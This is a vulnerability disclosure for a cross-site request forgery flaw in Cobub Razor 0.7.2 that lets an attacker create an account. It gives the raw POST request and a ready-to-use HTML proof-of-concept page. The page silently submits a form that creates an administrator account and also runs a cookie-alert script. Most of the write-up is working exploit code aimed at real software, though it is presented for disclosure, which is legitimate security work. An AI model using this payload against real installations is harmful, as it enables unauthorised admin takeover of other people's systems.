 ﻿Vendor Homepage  :  http://www.cobub.com/  
 
Software Link    :  https://github.com/cobub/razor/releases  

Version          :  0.7.2  

##  CVE description  ##
A cross-site request forgery (CSRF) vulnerability exists in Western Bridge Cobub Razor 0.7.2   
via /index.php?/user/createNewUser/, resulting in account creation.

##  Technical details  ##
In /index.php?/user/createNewUser/ POST:username=&email=&password=&confirm_password=&userrole=&user%2FccreateNewUser=.  

Because the Cobub Razor is lack of identity authentication ,When attacker induce authenticated admin user to a malicious web page, the account will be created without admin user's intention.

##  Proof of Concept  ##
1. Login to console page.(/index.php?/auth/login -> /index.php?/)
2. Keep login and access the PoC payload html it has following content  
3. Userrole is 3, which means that the user is admin.  

request:  
```
POST /index.php?/user/createNewUser/ HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Referer: http://localhost
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; MANMJS; rv:11.0) like Gecko
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Content-Length: 122
Host: localhost:80
Pragma: no-cache
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22c234df4ea2a0b843401dd9465f1c7c49%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A77%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+Trident%2F7.0%3B+MANMJS%3B+rv%3A11.0%29+like+Gecko%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520384883%3B%7D12178fe8e9554e0e6aa6007fb4476dfc
Connection: close

username=test123&email=test@test123.test&password=test&confirm_password=test&userrole=3&user%2FccreateNewUser=%E5%88%9B%E5%BB%BA  
```  

PoC payload:  

```<html>
  <body>
  <script>alert(document.cookie)</script>
    <form action="http://localhost/index.php?/user/createNewUser/" method="POST">
      <input type="hidden" name="username" value="test123" />
      <input type="hidden" name="email" value="test&#64;test123&#46;test" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="userrole" value="3" />
      <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
